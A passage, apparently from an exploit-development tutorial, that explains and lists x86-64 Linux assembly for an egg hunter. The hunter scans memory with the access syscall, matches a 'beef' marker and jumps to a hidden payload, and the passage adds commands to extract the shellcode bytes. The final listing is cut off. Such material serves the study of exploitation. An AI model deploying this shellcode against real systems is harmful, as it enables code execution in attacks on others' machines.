 ```
  inc edx
  shl edx, 12               ; rdx     -> 0x1000
```

Now that we know the register states we can increment by the page size and check if we have access to the location.

```
increment_page:
  lea rdi, [rdi + rdx]      ; inc pointer by 4096 

increment_address:
  push 21
  pop rax                   ; access syscall # loaded into rax
  syscall                   ; call access($rdi, $rsi) where rsi is 0x0 and rdi is a memory address

  cmp al, 0xf2              ; if al contains 0xf2, EFAULT was returned (bad addr)
  je increment_page         ; continue the hunt!
  
```
If we do have access to the path then we ensure that the egg doesnt find itself. Then we compare the first four bytes to compare it to our egg which in this case is "beef". In this case we are using Big Endian. So we compare the first 4 bytes or qword then once that is done we can compare the next 4 bytes and if both of those match then se jump to the beginning of our payload right after our two eggs.  

```
  add dil, 0x18             ; This offsets the register so the egg doesnt find itself
compare:
  mov rax, 0x62656566       ; store the egg for comparison, actual egg is beef ----> feeb
  scasd                     ; compare first dword
  jne compare
  scasd                     ; compare second dword
  jne compare
jump_to_shell:
  jmp rdi                   ; found it
```

We can compile the source code below by running the following command then get the shellcode:
```shell
nasm -f elf64 egg-hunter.nasm -o egg-hunter.o
for i in $(objdump -D egg-hunter.o | grep "^ " | cut -f2); do echo -n '\x'$i; done; echo
```
 
## Source Code 
```
global _start

section .text
_start:
; syscall argument order
; %rdi %rsi %rdx %r10 %r8 %r9
; int access(const char *pathname, int mode);
; Clear the registers for access syscall
  xor edi, edi              ; rdi     -> 0x0 Starts the search at 0x0
  mul edi                   ; rax|rdx -> 0x0 clears the rax register for access syscall
  xchg eax, esi             ; rsi     -> 0x0 The mode

  inc edx
  ; To find the page size of your linux system use this command: getconf PAGESIZE = 4096
  ; Shifts the bits by 2^12 ---> Example: 1 shifts to 0x1000 and in hex is 4096
  shl edx, 12               ; rdx     -> 0x1000

  ; known register state before the hunt begins
  ; rsi -> 0x0
```